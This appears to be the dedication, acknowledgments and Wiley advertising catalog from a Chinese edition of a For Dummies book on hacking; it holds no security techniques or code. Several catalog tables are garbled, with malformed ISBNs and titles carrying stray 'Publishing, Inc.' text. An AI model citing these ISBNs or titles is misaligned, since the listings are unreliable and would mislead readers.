这一本献给我的客户。我想由衷地感谢你们每一个人，感谢你们继续聘用这个“无名”顾问，并在长期以来一直支持我。如果没有你们愿意跳出“必须雇用大公司”的思维模式以及多年来的持续支持，我不会在这里。非常感谢你们！

## 作者致谢

一如既往，非常感谢 Amy、Garrett 和 Mary Lin，感谢你们每天带给我的爱、支持和幽默。我百分之百爱着你们每一个人！

我想感谢我的策划编辑 Amy Fandrel，感谢她继续推进这个项目，并给我这个机会将这本书打造成令我感到非常自豪的作品。我想感谢我的项目编辑 Chrissy Guthrie，与你合作非常愉快！感谢我的校对编辑 Kathy Simpson 严控了我的想法和文字。此外，非常感谢我的技术编辑、商业同事、朋友以及《黑客无线网络傻瓜指南》的合著者 Peter T. Davis。和这本书的之前的五个版本一样，与你合作非常棒了——感谢你让我严守正道！

非常感谢 Netsparker 的 Nicky Sciberras 和 Robert Abela；Rapid 的 Nate Crampton；ElcomSoft 的 Vladimir Katalov 和 Olga Koksharaova；Northwest Performance Software 的 Kirk Thomas；Mythisoft 的 David Vest；TamosSoft 的 Michael Berg；以及对我所有请求做出响应的 Palo Security 的 Oliver Muencho、Colin Bastable。非常感谢 Dave 帮助我跟上最新的工具和技术。感谢所有我未提到的其他人！

## 出版社致谢

- 策划编辑：Amy 和 Steven Hayes
- 制作编辑：Siddique Shaik
- 封面图片：Getty Images
- 编辑项目经理与开发：Christina N. Guthrie
- 校对编辑：Kathy Simpson
- 技术编辑：Peter T. Davis

## 无论去哪里都带上傻瓜！

无论你是对电子书感到兴奋、想从网上获取更多、拥有移动应用，还是沉浸在社交媒体中，dummies都能让一切变得简单。在线上找到我们！dummies 是该领域的全球领导者，也是世界上最受信赖和受推崇的品牌之一。不再局限于书籍，客户现在可以获得他们需要的 dummies 内容。我们将共同打造一种脱颖而出的解决方案，帮助你实现目标。在强大的多媒体网站上与活跃的观众互动，并将你的信息与专家并列。Dummies.com 是由专家团队策划的免费信息和知识的一站商店。

## 个人充实

### 保持敏锐傻瓜指南
9781119187790
美国 $26.00
加拿大 $31.99
英国 £19.99

### Facebook 傻瓜指南
9781119279300
美国 $21.99
加拿大 $25.99
英国 £16.99

### 吉他傻瓜指南
9781119295354
美国 $24.99
加拿大 $29.99
英国 £17.99

### 投资傻瓜指南
9781119283347
美国 $22.99
加拿大 $27.99
英国 £16.99

### 蜜蜂养傻瓜指南
9781119310068
美国 $22.99
加拿大 $27.99
英国 £16.99

### 数字摄影傻瓜指南
9781119255606
美国 $24.99
加拿大 $29.99
英国 £17.99

### 冥想傻瓜指南
9781119251163
美国 $24.99
加拿大 $29.99
英国 £17.99

### AutoCAD 傻瓜指南
9781119235491
美国 $26.99
加拿大 $31.99
英国 £19.99

###  Galaxy S5 傻瓜指南
9781119279952
美国 $24.99
加拿大 $29.99
英国 £17.99

### iPhone 傻瓜指南
9781119283133
美国 $24.99
加拿大 $29.99
英国 £17.99

### 钩织傻瓜指南
9781119287117
美国 $24.99
加拿大 $29.99
英国 £16.99

### 营养傻瓜指南
9781119300246
美国 $22.99
加拿大 $29.99
英国 £16.99

## 职业发展

### Windows 10 傻瓜指南
9781119310441
美国 $24.99
加拿大 $29.99
英国 £17.99

### AutoCAD 傻瓜指南
9781119255796
美国 $39.99
加拿大 $47.99
英国 £29.99

### Excel 2016 傻瓜指南
9781119234339
美国 $26.99
加拿大 $31.99
英国 £18.99

### QuickBooks 2013 傻瓜指南
9781119281467
美国 $26.99
加拿大 $31.99
英国 £17.99

### macOS Sierra 傻瓜指南
9781119280651
美国 $29.99
加拿大 $35.99
英国 £21.99

### LinkedIn 傻瓜指南
9781119251332
美国 $24.99
加拿大 $29.99
英国 £16.99

### Windows 10 傻瓜指南
9781119310563
美国 $34.00
加拿大 $41.99
英国 £21.99

### SharePoint 2016 傻瓜指南
9781119181705
美国 $29.99
加拿大 $35.99
英国 £21.99

### 基础分析傻瓜指南
9781119263593
美国 $26.99
加拿大 $31.99
英国 £21.99

### 网络傻瓜指南
9781119257769
美国 $29.99
加拿大 $35.99
英国 £21.99

### Office 2016 傻瓜指南
9781119293477
美国 $26.99
加拿大 $31.99
英国 £19.99

### Office 365 傻瓜指南
9781119265313
美国 $24.99
加拿大 $29.99
英国 £17.99

### Salesforce.com 傻瓜指南
9781119239314
美国 $29.99
加拿大 $35.99
英国 £21.99

### 编码傻瓜指南
9781119293233
美国 $29.99
加拿大 $35.99
英国 £21.99

dummies.com


# 让学习变得简单

## 学术


| 标题 | ISBN | 美国 | 加拿大 | 英国 |
| :--- | :--- | :--- | :--- | :--- |
| 代数 I傻呆 | 9781192935760 | $19.99 | $23.99 | £15.99 |
| 基础数学与预代数傻呆 | 9781192936377 | $19.99 | $23.99 | £15.99 |
| 微积分傻呆 | 9781192934911 | $19.99 | $23.99 | £15.99 |
| 化学傻呆 | 9781192934607 | $19.99 | $23.99 | £15.99 |
| 物理 I傻呆 | 9781192935902 | $19.99 | $23.99 | £15.99 |
| SAT备考题傻呆 | 9781192158444 | $26.99 | $31.99 | £19.99 |
| 有机化学 I傻呆 | 9781192933780 | $22.99 | $27.99 | £16.99 |
| 统计学傻呆 | 9781192935215 | $19.99 | $23.99 | £15.99 |
| 2016/ASVAB 傻呆 | 9781192937184 | $18.99 | $23.99 | £14.99 |
| Praxis Core 傻呆 | 9781192638835 | $26.99 | $31.99 | £19.99 |

# 凡有书店皆有售

dummies
威利（Wiley）品牌

## 小书装载大想象力


| 标题 | ISBN | 美国 | 加拿大 | 英国 |
| :--- | :--- | :--- | :--- | :--- |
| 编程入门傻呆 Publishing, Inc. | 9781191777173 | $9.99 | $9.99 | £8.99 |
| Minecraft 模组傻呆 Publishing, Inc. | 9781191777272 | $9.99 | $9.99 | £8.99 |
| 制作 YouTube 视频傻呆 Publishing, Inc. | 9781191772241 | $9.99 | $9.99 | £8.99 |
| 数字游戏设计傻呆 Publishing, Inc. | 9781191773210 | $9.99 | $9.99 | £8.99 |


| 标题 | ISBN | 美国 | 加拿大 | 英国 |
| :--- | :--- | :--- | :--- | :--- |
| 创意编程傻呆 Publishing, Inc. | 9781191262657 | $9.99 | $9.99 | £6.99 |
| 自制你的 Minecraft 傻呆 Publishing, Inc. | 9781192291336 | $9.99 | $9.99 | £6.99 |
| 在自己的世界里当主角傻呆 Publishing, Inc. | 9781191233527 | $9.99 | $9.99 | £6.99 |
| 使用 Scratch 创作游戏傻呆 Publishing, Inc. | 9781192291220 | $9.99 | $9.99 | £6.99 |
| 树莓派入门傻呆 Publishing, Inc. | 9781191773302 | $9.99 | $9.99 | £8.99 |

- 树莓派入门吧！
- 在科学中学习实验！
- 使用 Scratch 创作动画！
- 学习计算机工程编程！

- 树莓派入门
- 科学实验
- 创作数字动画
- 工程入门

# 释放他们的创造力

# dummies.com


